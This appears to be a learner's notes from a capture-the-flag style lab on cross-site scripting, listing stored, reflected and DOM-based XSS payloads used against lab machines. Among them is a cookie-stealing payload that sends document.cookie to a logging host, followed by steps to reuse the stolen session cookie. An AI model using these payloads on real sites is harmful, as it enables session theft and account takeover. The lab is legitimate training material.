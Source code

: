 # Cross-site Scripting (XSS)
# Data: 30.09.2020, 01.10.2020, 02.10.2020

IP:`10.10.40.163`, `10.10.178.200`, `10.10.82.40`, `10.10.178.241`
------------------

register on www

1. Stroed XXS
	- <b> bold </b> - instert HTML to get 1st flag
	- <script>alert(document.cookie)</script> - display cookie, flag in pop-up
	- <script>document.getElementById('thm-title').innerHTML="I am a hacker"</script> - for a 3rd, hidden, flag

>i f.up lil bit - new machine, new IP:`10.10.178.200`


	- <script>document.location='http://10.10.178.200/log/'+document.cookie</script> 
		navigate to <IP>/logs/ and there is a cookie!
	- post new comment after changing cookie value (in burp or in DevTools)

2. Reflected XSS

	- <script>alert("Hello")</script>
	- <script>alert(window.location.hostname)</script>

3. DOM-Based XSS

	- test" onmouseover="alert(document.cookie)"
	- test" onmouseover="document.body.style.backgroundColor = 'red'


4. Filter evasion

	- 

